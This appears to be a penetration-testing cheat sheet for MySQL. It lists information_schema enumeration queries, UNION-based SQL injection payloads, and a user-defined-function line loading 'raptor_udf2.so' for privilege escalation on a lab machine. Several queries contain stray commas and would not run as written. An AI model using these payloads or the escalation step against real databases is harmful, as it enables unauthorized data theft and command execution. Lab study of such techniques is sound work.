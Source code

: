 # MySQL 
## Structure
```
information_schema              Metadata and all the databases and tables
information_schema.schemata     Databases
information_schema.tables       Tables
information_schema.columns      Columns
```

### Example commands
```sql
-- Databases
SELECT group_concat(schema_name), FROM information_schema.schemata;

-- Tables from DB
SELECT group_concat(table_name), FROM information_schema.tables WHERE table_schema='YOURDB';

-- Columns from table
SELECT group_concat(column_name),FROM information_schema.columns WHERE table_name='TABLENAME';

-- Get data
SELECT data,data, FROM database.table;
```

## Queries
### UNION
When an application is vulnerable to SQL injection and the results of the query are returned within the application’s responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

#### Examples
```sql
-- If values are returned in order
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-- If more than one entry is returned but not all of the are in use
SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -
```

#### References
- [https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)


## Functions
### User-Defined function
Basic example, the functions takes a given number as a parameter and returns that number.
```sql
CREATE FUNCTION sql_function(random_num integer) RETURNS integer random_num;
```

The following example was written for a HTB machine, it stores a malicious `.so` file.     
**[DEMO](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)**
```sql
CREATE FUNCTION do_system RETURNS integer soname 'raptor_udf2.so';
```